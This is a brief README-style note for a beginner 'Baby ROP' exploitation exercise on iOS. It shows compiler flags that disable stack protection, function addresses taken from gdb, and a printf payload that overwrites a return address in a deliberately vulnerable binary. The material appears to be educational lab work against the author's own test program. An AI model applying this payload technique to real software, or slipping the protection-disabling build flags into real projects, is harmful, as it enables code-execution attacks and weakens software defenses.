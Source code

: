 Baby ROP Exploit
================

**An alias to compile without protection using clang**

Where ``-mno-thumb`` is used to force 32 bits instead of 16 bits, ``-fno-stack-protector`` to disable stack canaries and ``-fno-pie`` to disable ASLR.

``alias clangd="clang -isysroot /var/theos/sdks/iPhoneOS9.3.sdk -mno-thumb -fno-stack-protector -fno-pie"``

**An alias to sign a binary**

``alias sign="ldid -S"``

**Location of the iOS crash logs**

``/var/mobile/Library/Logs/CrashReporter``

**Pointer to "secret()"**

This can be found using ``disassemble secret`` in gdb.

0x0000bec4 (\\xc4\\xbe\\x00\\x00)

**Pointer to "change()" (without initial ``push``)**

This can be found using ``disassemble change`` in gdb.

0x0000be84 (\\x84\\xbe\\x00\\x00)

**Using "printf" to input malicious data into the binary**

``printf "AAAABBBBCCCCDDDDEEEE\x84\xbe\x00\x00\x00\x00\x00\x00\xc4\xbe\x00\x00" | ./vulnerable``